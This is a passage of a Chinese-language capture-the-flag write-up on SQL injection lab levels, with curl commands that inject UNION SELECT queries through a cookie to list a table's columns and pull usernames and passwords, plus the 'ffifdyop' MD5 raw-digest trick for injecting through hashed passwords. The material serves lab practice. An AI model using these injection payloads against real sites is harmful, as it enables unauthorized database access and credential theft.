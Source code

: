 - 获取`sae_manager_sqli8`列名

```
curl "http://lab1.xseclab.com/sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php?id=1" -H "Cookie: PHPSESSID=1c78312b1fc4ce0d5310b8681;id=1 union select 1,2, group_concat(column_name) from information_schema.columns where table_name='sae_manager_sqli8'"
```

id,username,password

- 获取数据

```
curl "http://lab1.xseclab.com/sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php?id=1" -H "Cookie: PHPSESSID=1c78312b1fc4ce0d5310b8681;id=1 union select 1,username,password from sae_manager_sqli8 limit 1,1 "
```

	<html>
	    <head>
	        <title>SQLi8_article</title>
	    </head>
	    <body>      <div>
	            <h2>manager</h2>
	            <div class="content">IamFlagCookieInject!</div>
	        </div>
	        
	    </body>
	</html>


## 据说哈希后的密码是不能产生注入的

这关没有通过。。。
python关于md5的方法为：
```
import hashlib
s='ffifdyop'
d=hashlib.md5(s)

d.hexdigest()
Out[35]: '276f722736c95d99e921722cf9ed621c'

d.digest()
Out[36]: "'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c"
```
### 参考
[1] [Python之数据加密与解密及相关操作（hashlib、hmac、random、base64、pycrypto）](http://www.cnblogs.com/yyds/p/7072492.html)

# [RegTiger](http://redtiger.labs.overthewire.org)

## level1
